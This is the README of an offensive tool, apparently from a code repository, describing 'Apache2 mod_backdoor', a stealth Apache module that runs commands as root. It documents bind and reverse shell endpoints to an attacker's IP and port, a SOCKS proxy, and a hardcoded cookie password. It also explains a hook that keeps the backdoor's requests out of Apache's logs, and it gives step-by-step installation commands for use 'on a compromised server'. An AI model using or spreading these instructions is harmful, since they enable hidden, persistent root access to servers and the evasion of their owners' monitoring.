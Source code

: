 # Apache2 mod_backdoor
Apache2 Module Backdoor is a stealth backdoor using an Apache2 module.<br/>
The main idea is to fork() the main Apache2 process just after it has readed its config.
Since it's forked before the root user transfer the process to www-data, you can execute command as root.<br/>


# Features

* Bind TTY Shell
* Reverse Shell (TTY ,PHP, Perl, Python, Ruby)
* High stability and reliability, each shell spawns a new forked independent root process attached to PID 1
* Socks proxy (Socks5 code from https://github.com/fgssfgss/socks_proxy)
* Password Protection through cookie headers
* Ping module to know if its still active


There is also a hook to bypass the Apache2 logging mechanism. Each request to the backdoor module **are not logged** by Apache2.

# Demo
***COMING SOON***

# Description

The password is passed through Cookie headers: `Cookie: password=backdoor`. You could easily edit it:
there are some constants in the beginning of `mod_backdoor.c`. <br/>
Each following requests must contain this password to interact with the module.<br/>
Each request containing this cookie will not be logged by Apache if the module is running. <br/>
Each shell spawns in its own process, attached to PID 1, so you could spawn many shells. <br/>

### Bind TTY Shell
The endpoint  `http[s]://<TARGET>/bind/<PORT>` bind a listening port on `<TARGET>:<PORT>` <br/>
When a connection is initiated to the listening port, the port closes. <br/>
I've used forkpty() to obtain a native TTY shell, working with an IPC UNIX socket to communicate 
between forked TTY process and the new socket you just opened.

### Reverse TTY Shell
It works like the bind shell, the endpoint `http[s]://<TARGET>/revtty/<IP>/<PORT>` returns a TTY
shell to `<IP>:<PORT>` <br/>


### Reverse Shell (No TTY)
The endpoint `http[s]://<TARGET>/reverse/<IP>/<PORT>/<PROG>` returns a shell to `<IP>:<PORT>` <br/>
`<PROG>` must be one of this: <br/>

| Native   | External  |    
| :------: | :--------:|
|   sh     |    php    |
|   bash   |    python |
|   dash   |    ruby   |
|   ash    |    perl   |
|   tcsh   |           |
|   ksh    |           |

`<PROG>` must be in lower-case.<br/>
PHP uses the `exec` function.<br/>
Ruby isn't using `/bin/sh`.

### Ping module
The endpoint `http[s]://<TARGET>/ping` tell you if the module is currently working.

# Notes
You could easily edit the differents endpoints and the password. It is defined by constants 
at the beginning of `mod_backdoor.c`.<br/>
Apache2 Module Backdoor is inspired from Ringbuilder, created by Juan Manuel Fernandez ([@TheXC3LL](https://twitter.com/TheXC3LL))<br/>
More info about Ringbuilder:<br/>
https://github.com/TarlogicSecurity/mod_ringbuilder <br/>
https://www.tarlogic.com/en/blog/backdoors-modulos-apache/ <br/>

Socks5 code was adapted from https://github.com/fgssfgss/socks_proxy <br/>

# Builds
For developpement :<br/>
* `apxs -i -a -c mod_backdoor.c -Wl,-lutil` <br/>
 -Wl,-lutil used to link mod_backdoor.so with libutil.so to use forkpty() from <pty.h>
* `systemctl restart apache2`

On a compromised server :<br/>
* Compile it like above for the desired arch and retrieve the mod_backdoor.so
* Copy mod_backdoor.so to `/usr/lib/apache2/modules/mod_backdoor.so`
* Create `/etc/apache2/mod-available/backdoor.load` --> <br/>
 `LoadModule backdoor_module /usr/lib/apache2/modules/mod_backdoor.so`
* `a2enmod backdoor` --> `systemctl restart apache2`

# Author
Vlad Rico ([@RicoVlad](https://twitter.com/RicoVlad))
